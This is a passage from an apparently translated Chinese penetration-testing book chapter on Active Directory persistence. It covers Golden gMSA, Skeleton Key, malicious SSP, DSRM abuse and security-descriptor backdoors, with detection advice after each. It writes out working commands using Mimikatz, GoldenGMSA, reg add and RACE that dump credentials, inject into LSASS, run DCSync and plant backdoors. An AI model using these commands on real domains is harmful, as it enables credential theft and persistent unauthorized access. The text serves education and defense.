原始研究可以在此处找到：[`www.semperis.com/blog/golden-gmsa-attack/`](https://www.semperis.com/blog/golden-gmsa-attack/)。

使用`GoldenGMSA`[8]工具，攻击者可以离线计算 gMSA 密码，因为它是由 KDS 根密钥和其他几个属性衍生出来的。攻击者需要运行三条命令来获取`base64`格式的密码。第一条命令列出所有可用的 gMSA，第二条命令转储相应的 KDS 根密钥和其他属性，第三条命令使用前两条命令的输出计算 gMSA 密码：

```
GoldenGMSA.exe gmsainfo
GoldenGMSA.exe kdsinfo
GoldenGMSA.exe compute --sid S-1-5-21-2801885930-3847104905-347266 793-1115 --kdskey <kds_from_step_2> --pwdid AQAAAEtEU0sCAAAA aQEAAAYAAAACAAAAVXiD+faLnEL66hoQ7gimmwAAAAAYAAAAGAAAAGUAcwBzAG8 AcwAuAGwAbwBjAGEAbAAAAGUAcwBzAG8AcwAuAGwAbwBjAGEAbAAAAA==
```

成功的黄金 gMSA 攻击在这里演示：


图 7.27 – 使用黄金 gMSA 攻击检索 gMSA 密码

需要提到的是，只有一个 KDS 根密钥；然而，计算 gMSA 的所有其他值是不同的，这意味着每个密码需要单独转储。

从防御角度来看，必须启用额外的审计功能以检测 KDS 根密钥转储尝试。

本节关于域持久性集中在域级别的控制。然而，还有其他方法可以通过滥用不同的认证机制和域控制器上的权限来进行 AD 后门攻击。

# 域控制器持久性

在 Windows 环境中，域控制器始终是恶意行为者在其攻击过程中关注的关键目标之一。如果攻击者已经入侵了域控制器并建立了持久性，那么他们有可能在几分钟内重新获得整个域的管理员权限。本节中的技术利用了凭据操作和认证机制的改变。在本节末，我们将解释安全描述符的概念，以及攻击者如何修改它们来维持在环境中的特权访问。

## 骨架密钥

骨架密钥攻击是一种在域控制器上的持久性方法，它在域中设置了一个主密码，允许攻击者以任何域用户的身份进行身份验证。然而，为了避免被早期检测到，安装的后门模块允许用户继续使用现有密码登录。为了使 Kerberos 认证正常工作，必须强制加密降级为`RC4_HMAC_MD5`。此攻击需要域管理员权限以及域控制器上的`SeDebugPrivilege`用户权限。骨架密钥攻击无法在重启后生效，因为对**本地安全授权子系统服务**（**LSASS**）进程的所有操作都在内存中进行。

注意

关于骨架密钥内存操作的更详细描述可以在此处找到：[`adsecurity.org/?p=1255`](https://adsecurity.org/?p=1255)。

Mimikatz 已经掌握了此攻击。以下命令会注入骨架密钥恶意软件：

```
mimikatz.exe „privilege::debug" „misc::skeleton" „exit"
```

以下展示了成功攻击域控制器的示例：


图 7.28 – 骨架密钥恶意软件已在域控制器上部署

现在，为了确认，我们在不知道特权用户密码的情况下映射了域控制器的 `C:\` 驱动器：

```
net use Y: \\kingslanding.sevenkingdoms.local\c$ mimikatz /user:sevenkingdoms\robert.baratheon
```

磁盘成功映射：


图 7.29 – Skeleton Key 生效

为了部分缓解 Skeleton Key 攻击，我们通过在 `HKLM\SYSTEM\CurrentControlSet\Control\Lsa` 注册表项中创建 `DWORD` 值 `RunAsPPL` 并设置为 `1` 来将 LSASS 作为受保护进程运行。如微软所述，"*这将防止非管理员的非 PPL 进程通过打开进程函数访问或篡改 PPL 进程中的代码和数据。*"

在以下屏幕截图中，我们可以看到原始的 Skeleton Key 攻击失败了：


图 7.30 – PPL 击败了 Skeleton Key 攻击

然而，通过使用 Mimikatz 的 `mimidrv.sys` 驱动程序，仍然可以绕过 PPL 机制，移除该机制。然而，这种绕过方法更加显眼，因为它需要加载驱动程序和创建服务：



图 7.31 – PPL 保护被 mimidrv 移除

注意

还有其他针对 PPL 的绕过方法，*itm4n* 在这里有详细描述：[`itm4n.github.io/lsass-runasppl/`](https://itm4n.github.io/lsass-runasppl/)。

此外，蓝队可以通过组策略启用 LSASS 进程的审计模式。这样就可以监控 LSASS 加载的插件和驱动程序，事件 `3033` 和 `3063` 将分别出现在日志中。要启用审计，我们需要在 `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\LSASS.exe` 注册表项中创建 `AuditLevel` DWORD 值，并设置为 `8`。当 Skeleton Key 攻击通过远程方式进行时，域控制器将记录事件 ID 为 `4673`、`4611`、`4688` 和 `4689` 的事件，详见此处[9]。这些事件将显示使用敏感权限和登录进程的注册。最后两个事件仅在启用 `Process Tracking` 时出现。

为了进一步探索如何改变身份验证机制，我们将引入恶意 SSP 的概念。

## 恶意 SSP

**安全支持提供者接口**(**SSPI**) 是 Windows 身份验证的基础。当应用程序需要通过特定协议进行身份验证时，它们使用 SSPI 调用相应的 SSP。系统默认实现了六个 SSP，作为 DLL 文件，存储在 `C:\Windows\System32` 文件夹中。也可以引入自定义的 SSP。提供者列表存储在注册表项 `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages` 中。

在已被攻陷的主机上，攻击者有两个选项。第一个选项是利用 Mimikatz 将恶意 SSP 直接注入 LSASS 进程。第二个选项是更新 SSP 安全包注册表键，将 `mimilib.dll` 放置在与 LSASS 同一文件夹（**C:\Windows\System32**）中，并等待重启。这两种方式都有明显的操作安全（OpSec）考虑因素。内存注入场景在重启后不会持续存在，但会立即开始记录密码。可以使用以下命令注入 Mimikatz 的 `memssp` 模块：

```
mimikatz.exe „privilege::debug" „misc::memssp" „exit"
```

恶意 SSP 成功注入后的结果如下面的截图所示：


图 7.32 – Mimikatz memssp 模块被注入

我们可以使用 `misc::lock` Mimikatz 命令锁定屏幕，迫使受害者重新登录。包含密码的日志文件位于 `C:\Windows\System32\mimilsa.log`，如下图所示：


图 7.33 – mimilsa.log 文件中的明文密码

要通过注册表手动添加 SSP，请运行以下命令：

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```

下面展示了`mimilib`成功添加为 SSP 的情况：


图 7.34 – mimilib 被注册为 SSP

重启后，密码可以在 `C:\Windows\System32\kiwissp.log` 中找到：


图 7.35 – kiwissp.log 文件中的明文密码

为了检测恶意 SSP，蓝队可以监控 `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages` 注册表键和磁盘上的文件变化。然而，攻击者可以更改日志存储文件夹和文件名。在 LSASS 注入的情况下，我们可以应用之前讨论过的相同检测方法。另外，建议将 LSASS 运行为 PPL。

为了通过身份验证操作实现我们的持久化，我们将讨论在域控制器上滥用本地管理员账户。

## DSRM

**目录服务还原模式**（**DSRM**）账户是域控制器上的本地管理员账户。此账户的密码与域管理员账户的密码不同。该密码在域控制器提升时设置，并且在密码轮换过程中经常被忽视。*Sean Metcalf* 对两种攻击场景做了很好的描述。第一种是将 DSRM 密码更改为已知密码，第二种是将其与我们选择的域账户同步。我们将利用 `Ntdsutil` 来执行这些操作。以下截图展示了这两种场景：


图 7.36 – DSRM 密码重置和同步场景

我们可以通过转储并比较用户哈希来确认同步是否成功：


图 7.37 – DSRM 密码已与 jaime.lannister 账户的密码同步

使用 DSRM 密码登录时，有三种可能的场景。在域管理员权限下，攻击者可以通过将`HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior`中的注册表键值设置为以下之一，强制选择所需的选项：

+   **0（默认值）**：只有当域控制器处于 DSRM 模式时，才允许登录

+   `1`：只有在停止目录服务时才允许登录

+   `2`：可以自由登录，没有任何限制

使用 PowerShell，攻击者将把注册表值设置为`2`：

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

然后，攻击者将执行哈希传递攻击，以域控制器的本地管理员身份启动 Shell，并运行 DCSync 攻击：

```
mimikatz.exe "lsadump::dcsync /domain:sevenkingdoms.local /dc:kingslanding /user:robert.baratheon /csv"
```

这里演示了 DCSync 的结果：


图 7.38 – 来自 DSRM 登录会话的 DCSync 结果

蓝队应监控`HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior`注册表键的存在。事件 ID `4794` 将记录设置 DSRM 密码的尝试

我们最后的持久化技术将涵盖安全描述符及其如何设置，以便为恶意行为者提供特权访问，而无需显式地将受损用户添加到特权组中。

## 安全描述符更改

安全描述符用于存储一个对象对另一个对象的权限。它采用**安全描述符定义语言**（**SDDL**）中定义的格式进行描述。**访问控制实体**（**ACE**）字符串用于**自愿访问控制列表**（**DACL**）和**系统访问控制列表**（**SACL**）[10]：

```
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid;
```

这个想法是修改多个远程访问方法的安全描述符。我们将在域控制器上为非特权用户设置 WMI 和 PS-Remoting 访问后门。此外，我们还将修改远程注册表的安全描述符。RACE 工具包有用于这些任务的 PowerShell 功能：

```
Set-RemoteWMI -SamAccountName renly.baratheon -ComputerName kingslanding -Verbose
Set-RemotePSRemoting -SamAccountName renly.baratheon -Verbose
Add-RemoteRegBackdoor -Trustee renly.baratheon -ComputerName kingslanding -Verbose
```

在域控制器上执行命令的结果如下：


图 7.39 – 为用户 renly.baratheon 在域控制器上设置后门

现在，我们可以确认 PS-Remoting 访问。


图 7.40 – PS-Remoting 后门正在运行

注册表后门允许攻击者检索机器账户哈希（银票）、本地账户哈希以及域缓存凭证。该后门打开远程注册表，检索`BootKey`，用它解密 LSA 密钥，然后在该密钥的帮助下解密`MachineAccount`哈希：

```
Get-RemoteMachineAccountHash -ComputerName kingslanding -Verbose
Get-RemoteLocalAccountHash -ComputerName kingslanding -Verbose
Get-RemoteCachedCredential -ComputerName kingslanding -Verbose
```

如果检测到 ID 为`4670`（**对象上的权限已更改**）的日志事件，则可以检测到此后门。

# 总结

总之，攻击者可以通过多种方式在受损环境中实现持久性。这可以在域级别实现，也可以通过访问域控制器来实现。我们看到伪造票证的强大功能，以及如果对手遵循 OpSec 建议，其使用是多么难以检测。我们还探索了各种 ACL 和属性修改。像往常一样，细节决定成败，在复杂的环境中，检测这些技术可能会很棘手。我们在实践中看到了 DCShadow 和 Golden gMSA 攻击。我们深入探讨了域控制器持久性的话题，展示了收集明文密码的方法。最后，我们讨论了安全描述符以及可能的系统后门方式。

在接下来的章节中，我们将重点讨论攻击 AD 证书服务，这是 Windows 环境中的特权目标。

# 参考文献

1.  关于 2021 年 11 月更新的评论: [`www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver`](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)

1.  PAC 请求者和 Golden Ticket 攻击: [`www.varonis.com/blog/pac_requestor-and-golden-ticket-attacks`](https://www.varonis.com/blog/pac_requestor-and-golden-ticket-attacks)

1.  通过检查校验和和票证时间来检测恶意活动: [`www.trustedsec.com/blog/red-vs-blue-kerberos-ticket-times-checksums-and-you/`](https://www.trustedsec.com/blog/red-vs-blue-kerberos-ticket-times-checksums-and-you/)

1.  WonkaVision 工具: [`github.com/0xe7/WonkaVision`](https://github.com/0xe7/WonkaVision)

1.  插入 SID 历史: [`www.thehacker.recipes/ad/persistence/sid-history`](https://www.thehacker.recipes/ad/persistence/sid-history)

1.  ServerUntrustAccount: [`github.com/STEALTHbits/ServerUntrustAccount`](https://github.com/STEALTHbits/ServerUntrustAccount)

1.  DCShadow 脚本: [`github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1`](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1)

1.  GoldenGMSA 工具: [`github.com/Semperis/GoldenGMSA`](https://github.com/Semperis/GoldenGMSA)

1.  一次远程 Skeleton Key 攻击: [`adsecurity.org/?p=1275`](https://adsecurity.org/?p=1275)

1.  ACE 解释: [`helgeklein.com/blog/permissions-a-primer-or-dacl-sacl-owner-sid-and-ace-explained/`](https://helgeklein.com/blog/permissions-a-primer-or-dacl-sacl-owner-sid-and-ace-explained/)
